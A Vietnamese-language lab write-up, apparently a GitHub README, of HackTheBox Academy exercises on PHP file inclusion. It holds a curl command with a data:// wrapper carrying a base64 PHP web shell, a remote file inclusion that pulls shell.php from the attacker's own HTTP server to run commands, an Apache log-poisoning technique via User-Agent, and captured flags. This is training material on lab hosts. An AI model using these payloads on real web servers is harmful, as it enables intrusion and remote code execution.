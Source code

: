 # HackTheBox_academy

# Bài này ta làm quen với PHP wrappers để lấy RCE

![image](https://github.com/user-attachments/assets/5a677965-ba33-4a7d-91f5-c3ea1c648c19)

>curl -s "http://83.136.251.68:31806/index.php?language=data://text/plain;base64,PD9waHA8c2lzdGVtKCRfR0VUWVJbYWJ0aXJkXSk7ID8%3D&cmd=ls%20/"


![Screenshot 2025-04-18 221659](https://github.com/user-attachments/assets/cdbed38b-0321-48f0-9a4e-1cba00020db4)

![Screenshot 2025-04-18 221851](https://github.com/user-attachments/assets/d71d3a31-f92c-4333-bc9f-affe40c100d5)

Đọc file .txt ta được flag 

![Screenshot 2025-04-18 221938](https://github.com/user-attachments/assets/1922a5fd-c1f8-4db4-9d6e-9d9698ebf59c)



# Remote File Inclusion(RFI)

![image](https://github.com/user-attachments/assets/5ba667c6-a125-4f82-b2bf-bb5e84c5640b)


![Screenshot 2025-04-21 010317](https://github.com/user-attachments/assets/2e2e3a45-60a4-4a27-bc48-b34b10b5146c)

Ta thử kiểm tra xem trang web có bị RFI không bằng cách thêm 1 đường dẫn như sau http://10.129.86.168/index.php?language=http://10.129.86.168:80/index.php

![image](https://github.com/user-attachments/assets/6ba21e4b-90ee-4a07-bb4f-5903d7c45db9)

Như chúng ta có thể thấy, trang index.php đã được đưa vào phần dễ bị tấn công, vì vậy trang thực sự dễ bị tấn công RFI, vì chúng ta có thể đưa vào URL, hơn nãy ta thấy khi ta đưa vào trang index.php thì nó không hiện thị dưới dạng mã nguồn mà hiển thị dưới dạng thực thi và hiện thị dưới dạng php, Có nghĩa là PHP trên máy chủ vẫn thực thi code trong file đó, chứ không hiển thị ra nội dung file. Điều này cho phép chúng ta thực thi mã nếu chúng ta đưa vào một tệp lệnh php độc hại.

Tạo một tệp độc hại bằng php

![image](https://github.com/user-attachments/assets/ae958046-7493-493b-8ee6-afd46379574b)

Bây giờ, chúng ta có thể khởi động một máy chủ trên máy của mình bằng máy chủ python cơ bản bằng lệnh sau:

> python3 -m http.server 8080

Bây giờ chúng ta có thể inclusion shell cục bộ của mình thông qua RFI bằng đường dẫn như sau

> http://10.129.86.168/index.php?language=http://10.10.15.4:8080/shell.php&cmd=ls /

![image](https://github.com/user-attachments/assets/76c9a99b-6c8b-409c-8d6f-28ed9f29c262)

![Screenshot 2025-04-21 014108](https://github.com/user-attachments/assets/47a26e3f-2f58-4b43-9173-597a5f6156eb)

Flag : 99a8fc05f033f2fc0cf9a6f9826f83f4 

Ngoài ra ta có thể sử dụng ftp:// , điều này cũng có thể hữu ích trong trường hợp cổng http bị chặn bởi tường lửa hoặc http://chuỗi bị chặn bởi WAF

# Tấn công Web qua User-Agent Injection & Local File Inclusion (Server log poisoning)

Trong Apache tệp access.log chứa nhiều thông tin khác nhau về tất cả các yêu cầu được gửi đến máy chủ, bao gồm cả user-agent, Vì chúng ta có thể kiểm soát User-Agent trong yêu cầu của mình nên chúng ta có thể đầu độc tiêu đề User-Agent

Theo mặc định thì tệp access.log được đặt trong 
> /var/log/apache2/access.log

![Screenshot 2025-04-22 180522](https://github.com/user-attachments/assets/c1e08023-9daf-4ed5-a886-6f5861660df2)

![image](https://github.com/user-attachments/assets/f1bb98b3-95b5-4943-aa3b-8de2e91fa138)

Đầu tiên ta sử dụng lỗ hổng LFI thông qua tham số language để kết hợp với Apache log poisoning để RCE

![image](https://github.com/user-attachments/assets/2faac2f3-6998-45b1-acd8-6ffee07618a5)

Vì User-Agent được ghi vào access, nên ta chèn mã như sau

![image](https://github.com/user-attachments/assets/063b930f-600c-48a9-acc9-fd118e1febcb)

Tiếp theo ta cần làm là đưa file log chứa mã php vào lỗ hổng LFI thông qua tham số language như sau

![image](https://github.com/user-attachments/assets/fea2b5b7-267f-4d59-a458-d3a07c3d11be)

![image](https://github.com/user-attachments/assets/4d328efe-83ef-45f5-8a3f-173d84b35e84)

flag : HTB{1095_5#0u1d_n3v3r_63_3xp053d}









































